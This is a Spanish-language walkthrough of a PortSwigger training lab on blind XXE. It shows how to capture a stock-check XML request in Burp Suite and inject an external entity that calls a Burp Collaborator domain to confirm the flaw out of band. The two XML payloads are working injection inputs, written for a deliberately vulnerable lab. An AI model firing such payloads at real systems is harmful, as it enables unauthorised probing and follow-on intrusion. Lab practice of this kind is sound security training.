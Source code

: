 ```yaml
---
title: Blind XXE with out-of-band interaction
description: Laboratorio de Portswigger sobre XXE
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XXE
tags:
  - Portswigger Labs
  - XXE
  - Blind XXE with out-of-band interaction
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función llamada `Check stock` que analiza la `entrada` en `formato XML` y `devuelve` cualquier `valor inesperado` en la respuesta. Puedes `detectar` la vulnerabilidad `blind XXE` provocando `out-of-band interactions` con un `dominio externo`. Para resolver el laboratorio, debemos utilizar una `entidad externa` para hacer que el analizador XML realice una `búsqueda DNS` y una `solicitud HTTP` hacia `Burp Collaborator`

---

## Guía de XXE

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XXE` [https://justice-reaper.github.io/posts/XXE-Guide/](https://justice-reaper.github.io/posts/XXE-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-3/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-3/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-3/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este dominio obtenido lo vamos a usar para construir este `payload`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://7qyhremmrjqjtk32uztkk5jai1osci07.oastify.com"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`

![](/assets/img/XXE-Injection-Lab-3/image_4.png)
